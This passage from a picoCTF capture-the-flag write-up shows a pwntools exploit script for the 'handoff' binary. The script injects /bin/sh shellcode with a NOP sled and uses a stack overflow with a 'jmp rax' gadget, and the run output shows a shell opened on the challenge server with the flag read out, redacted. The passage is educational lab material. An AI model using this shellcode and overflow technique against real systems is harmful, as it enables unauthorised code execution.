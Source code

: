       """, arch = 'amd64')
    print('shellcode = ' + str(len(random_shellcode)) + ' bytes')
    random_shellcode += b'\x90'*(64-9-len(random_shellcode))
    random_shellcode += b'/bin/sh\x00'
    target_proc.sendline(random_shellcode)

    # overflow feedback
    target_proc.recvuntil(b'3. Exit the app\n')
    target_proc.sendline(b'3')
    payload = b'\xeb\x06' + b'\x90'*6   # jmp to <total_entries>
    payload += asm("""
      sub rax, (0x2D4 - 8)              
      jmp rax                           
     """, arch = 'amd64')
    # $rax=<feedback> sub to get to <entries[0].message>
    # jump to our shellcode
    payload += b'A'*4 + p64(0x40116c) # pad remainder of saved rbp, set ret to "jmp rax" gadget
    print(len(payload))
    target_proc.sendline(payload)

    target_proc.interactive()

The resulting output from running against the challenge server:

    $ ./pwn-handoff.py remote shape-facility.picoctf.net 57964
    [*] '/home/user/picoCTF/handoff/handoff'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x400000)
        RWX:      Has RWX segments
    [+] Opening connection to shape-facility.picoctf.net on port 57964: Done
    shellcode = 31 bytes
    28
    [*] Switching to interactive mode
    Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it: 
    $ ls
    flag.txt
    handoff
    start.sh
    $ cat flag.txt
    picoCTF{...........redacted.............}$ 
    $ exit
    [*] Got EOF while reading in interactive
    [*] Interrupted
    [*] Closed connection to shape-facility.picoctf.net port 57964

Where the actual flag value has been redacted for the purposes of this write up.
